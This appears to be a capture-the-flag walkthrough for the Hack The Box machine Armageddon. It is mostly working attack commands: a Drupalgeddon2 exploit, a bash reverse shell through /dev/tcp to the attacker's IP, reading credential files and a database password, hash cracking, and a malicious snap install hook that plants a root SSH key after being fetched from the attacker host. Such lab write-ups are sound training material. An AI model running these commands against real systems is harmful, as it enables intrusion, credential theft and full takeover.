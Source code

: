 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.233
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts 10.10.10.233
```

---

## 🏠 Web Enum (Drupal 7.56) [HTTP](HTTP.md)
```bash
curl http://10.10.10.233/robots.txt
curl http://10.10.10.233/CHANGELOG.txt | head
```

---

## ⚡ Exploitation - Drupalgeddon2 (RCE)
```bash
git clone https://github.com/dreadlocked/Drupalgeddon2.git
cd Drupalgeddon2
./drupalgeddon2.rb http://10.10.10.233
```

### 🤖 Webshell Reverse Shell
```bash
# Listener
nc -lnvp 443

# Exploit (via webshell)
curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.7/443 0>&1" http://10.10.10.233/shell.php
```

---

## 🔍 Enumeration (as apache)
```bash
ls -l /home
cat /etc/passwd | grep bash
cat /var/www/html/sites/default/settings.php
```

### 📂 DB Access
```bash
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
select * from users;
```

---

## 🔐 Crack Hash
```bash
echo "$S$DgL2gj..." > drupal.hash
hashcat -m 7900 drupal.hash /usr/share/wordlists/rockyou.txt
```

---

## 🔒 SSH as brucetherealadmin
```bash
ssh brucetherealadmin@10.10.10.233
# password: booboo
```

---

## ⬆️ Privilege Escalation via snap
### ☑ Check sudo perms
```bash
sudo -l
```

### 🚀 Build Malicious Snap (on your own VM)
```bash
snapcraft init
mkdir -p snap/hooks
cat > snap/hooks/install << EOF
#!/bin/bash
mkdir -p /root/.ssh
echo "<your-public-key>" > /root/.ssh/authorized_keys
EOF
chmod +x snap/hooks/install

cat > snap/snapcraft.yaml << EOF
name: armageddon
version: '0.1'
summary: Exploit Snap
confinement: devmode
grade: devel
parts:
  dummy:
    plugin: nil
EOF

snapcraft
```

### 🛫 Transfer + Install on Target
```bash
# Host
sudo python3 -m http.server 80

# Target (as brucetherealadmin)
curl http://10.10.14.7/armageddon_0.1_amd64.snap -o shell.snap
sudo snap install shell.snap --devmode --dangerous
```

---

## ✅ Root Access (via SSH key installed)
```bash
ssh -i ~/.ssh/id_ed25519 root@10.10.10.233
cat /root/root.txt
```

---

## 📋 Notes & References
- Drupal RCE: [Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)
- Snap Exploitation: GTFOBins + Custom install hook
- DB Creds from: `/var/www/html/sites/default/settings.php`